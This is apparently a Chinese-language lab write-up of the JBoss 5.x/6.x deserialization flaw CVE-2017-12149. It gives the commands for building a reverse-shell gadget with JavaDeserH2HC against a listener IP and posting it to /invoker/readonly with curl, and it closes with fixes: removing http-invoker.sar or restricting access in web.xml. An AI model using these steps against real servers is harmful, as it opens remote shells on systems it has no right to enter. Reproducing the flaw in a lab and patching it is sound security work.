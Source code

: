 ## JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

访问 /invoker/readonly
返回500，说明页面存在，此页面存在反序列化漏洞。
![CVE-2017-121491](./pic/CVE-2017-121491.png)

利用工具:[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC),我们选择一个Gadget：ReverseShellCommonsCollectionsHashMap，编译并生成序列化数据：

生成ReverseShellCommonsCollectionsHashMap.class
```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```
生成ReverseShellCommonsCollectionsHashMap.ser
```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.31.232:6666（ip是nc所在的ip）
```

利用：
```
curl http://192.168.31.205:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```
![CVE-2017-121492](./pic/CVE-2017-121492.png)


## 修复建议
1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。路径为：`C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar`,删除后访问404.
![CVE-2017-121493](./pic/CVE-2017-121493.png)
2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制：
`<url-pattern>/*</url-pattern>`
路径为：`C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar\invoker.war\WEB-INF\web.xml`
![CVE-2017-121494](./pic/CVE-2017-121494.png)